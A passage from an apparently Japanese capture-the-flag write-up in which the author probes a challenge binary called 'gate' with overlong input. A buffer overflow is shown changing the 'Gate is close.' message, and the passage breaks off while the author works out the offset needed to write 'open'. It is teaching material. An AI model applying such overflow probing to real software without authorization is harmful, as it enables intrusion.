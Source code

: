 まずはオーバーフローが可能か調べてみる。  
入力の際適当に長めの文字列を入れて、Gate is close.のCloseが書き変われば、gateの中身が書き変わっているということになる。  
```
$ echo -e "hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh" | ./gate

                                  {} {}
                          !  !  ! II II !  !  !
                       !  I__I__I_II II_I__I__I  !
                       I_/|__|__|_|| ||_|__|__|\_I
                    ! /|_/|  |  | || || |  |  |\_|\ !
        .--.        I//|  |  |  | || || |  |  |  |\\I        .--.
       /-   \    ! /|/ |  |  |  | || || |  |  |  | \|\ !    /=   \
       \=__ /    I//|  |  |  |  | || || |  |  |  |  |\\I    \-__ /
        }  {  ! /|/ |  |  |  |  | || || |  |  |  |  | \|\ !  }  {
       {____} I//|  |  |  |  |  | || || |  |  |  |  |  |\\I {____}
 _!__!__|= |=/|/ |  |  |  |  |  | || || |  |  |  |  |  | \|\=|  |__!__!_
 _I__I__|  ||/|__|__|__|__|__|__|_|| ||_|__|__|__|__|__|__|\||- |__I__I_
 -|--|--|- ||-|--|--|--|--|--|--|-|| ||-|--|--|--|--|--|--|-||= |--|--|-
  |  |  |  || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||  |  |  |
  |  |  |= || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||- |  |  |
 _|__|__|  ||_|__|__|__|__|__|__|_|| ||_|__|__|__|__|__|__|_||  |__|__|_
 -|--|--|= ||-|--|--|--|--|--|--|-|| ||-|--|--|--|--|--|--|-||- |--|--|-
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
 ~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^~~~~~~~~~~~

You'll need permission to pass. What's your name?
> Gate is hhhhhh.
Goodbay hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh.
```
Gate is close.がGate is hhhhhh.に書き変わっているため、gateの書き換えに成功している。  
次はこれを利用して、gateの中身をCloseからopenに書き換えてやる必要がある。  
先ほどは適当でも大丈夫だったが、次はきれいにopenにする必要があるため、何文字目からgateの配列に入っているのかを調べる必要がある。  
本来はgdbを使いたいが、ちょっとうまく動かなかったため、今回は一文字ずつ減らしていく。

まずは30文字を適当に生成する。
> print("A"*30)

これを入力する。  
```
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./gate

                                  {} {}
                          !  !  ! II II !  !  !
                       !  I__I__I_II II_I__I__I  !
                       I_/|__|__|_|| ||_|__|__|\_I
                    ! /|_/|  |  | || || |  |  |\_|\ !
        .--.        I//|  |  |  | || || |  |  |  |\\I        .--.
       /-   \    ! /|/ |  |  |  | || || |  |  |  | \|\ !    /=   \
       \=__ /    I//|  |  |  |  | || || |  |  |  |  |\\I    \-__ /
        }  {  ! /|/ |  |  |  |  | || || |  |  |  |  | \|\ !  }  {
       {____} I//|  |  |  |  |  | || || |  |  |  |  |  |\\I {____}
 _!__!__|= |=/|/ |  |  |  |  |  | || || |  |  |  |  |  | \|\=|  |__!__!_
 _I__I__|  ||/|__|__|__|__|__|__|_|| ||_|__|__|__|__|__|__|\||- |__I__I_
 -|--|--|- ||-|--|--|--|--|--|--|-|| ||-|--|--|--|--|--|--|-||= |--|--|-
  |  |  |  || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||  |  |  |
  |  |  |= || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||- |  |  |
 _|__|__|  ||_|__|__|__|__|__|__|_|| ||_|__|__|__|__|__|__|_||  |__|__|_
 -|--|--|= ||-|--|--|--|--|--|--|-|| ||-|--|--|--|--|--|--|-||- |--|--|-
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
 ~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^~~~~~~~~~~~

```